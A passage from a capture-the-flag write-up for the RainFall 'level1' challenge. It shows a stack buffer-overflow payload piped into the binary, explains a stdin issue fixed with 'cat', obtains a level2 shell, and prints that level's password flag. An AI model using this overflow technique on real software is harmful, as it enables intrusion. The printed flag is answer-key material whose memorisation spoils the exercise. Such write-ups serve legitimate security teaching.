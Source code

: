 ```sh
level1@RainFall:~$ python -c 'print "A" * 76 + "\x44\x84\x04\x08"' | ./level1
Good... Wait what?
[...WAITING FOR THE SHELL...]
```

## OHHH LEZGOOO-

```sh
level1@RainFall:~$ python -c 'print "A" * 76 + "\x44\x84\x04\x08"' | ./level1
Good... Wait what?
Segmentation fault (core dumped)
level1@RainFall:~$
```

## NOOOOOOOOOOOOO

- **Why a `Segmentation fault` ?** Because `python -c 'print "A" * 76 + "\x44\x84\x04\x08"'` send as output `AAA...A\x44\x84\x04\x08` to the pipe and close the standard input, then the pipe send the output to the `level1` program, but the `gets` function read the input from the standard input, and the standard input is closed, so the program crashes. It's just a shell issue.

- **How to fix it ?** Use a new command to keep the standard input open after the payload is sent : `cat`. The pipe receive as input FIRSTLY the output of `python -c 'print "A" * 76 + "\x44\x84\x04\x08"'` and SECONDLY the output of `cat`. What is the output of `cat` ? Nothing, it just keep the standard input open and send what he receive as input to the pipe and the pipe send it to the `level1` program. That's it. That's shell. (remember [`minishell`](https://github.com/Nimpoo/minishell))

- Here's the new command : **`(python -c 'print "A" * 76 + "\x44\x84\x04\x08"'; cat) | ./level1`**

```sh
level1@RainFall:~$ (python -c 'print "A" * 76 + "\x44\x84\x04\x08"'; cat) | ./level1
Good... Wait what?
[...NOTHING...]
```

_Okay, no crash..._

```sh
level1@RainFall:~$ (python -c 'print "A" * 76 + "\x44\x84\x04\x08"'; cat) | ./level1
Good... Wait what?
whoami
level2
```

# _LEZGOOOOOOOOOOOOOOOOOOOOOOOO !!!! Let's get the flag ! :_

```sh
level1@RainFall:~$ (python -c 'print "A" * 76 + "\x44\x84\x04\x08"'; cat) | ./level1
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
^C
Segmentation fault (core dumped)
level1@RainFall:~$
```
